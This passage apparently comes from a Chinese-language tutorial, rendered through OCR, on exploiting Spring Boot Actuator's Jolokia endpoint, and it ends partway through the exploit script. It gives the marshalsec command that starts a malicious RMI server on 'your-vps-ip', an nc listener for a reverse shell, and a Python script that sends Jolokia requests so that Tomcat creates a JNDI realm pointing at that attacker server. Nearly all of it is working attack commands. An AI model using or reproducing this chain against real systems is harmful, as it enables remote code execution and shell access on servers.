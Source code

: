 ##### 步骤三：架设恶意 rmi 服务

```
https://github.com/ianxtianxt/marshalsec 
```

使用下面命令架设对应的 rmi 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389 
```

##### 步骤四：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```
nc -lvp 上面java脚本里面自己设置的端口 
```

##### 步骤五：发送恶意 payload

根据实际情况修改 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。

```
#!/usr/bin/env python3
# coding: utf-8
# Referer: https://ricterz.me/posts/2019-03-06-yet-another-way-to-exploit-spring-boot-actuators-via-jolokia.txt

import requests

url = ‘[http://127.0.0.1:8080/jolokia](http://127.0.0.1:8080/jolokia)’

create_realm = {

“mbean”: “Tomcat:type=MBeanFactory”,

“type”: “EXEC”,

“operation”: “createJNDIRealm”,

“arguments”: [“Tomcat:type=Engine”]

}

wirte_factory = {

“mbean”: “Tomcat:realmPath=/realm0,type=Realm”,

“type”: “WRITE”,

“attribute”: “contextFactory”,

“value”: “com.sun.jndi.rmi.registry.RegistryContextFactory”

}

write_url = {

“mbean”: “Tomcat:realmPath=/realm0,type=Realm”,

“type”: “WRITE”,

“attribute”: “connectionURL”,

“value”: “rmi://your-vps-ip:1389/JNDIObject”
```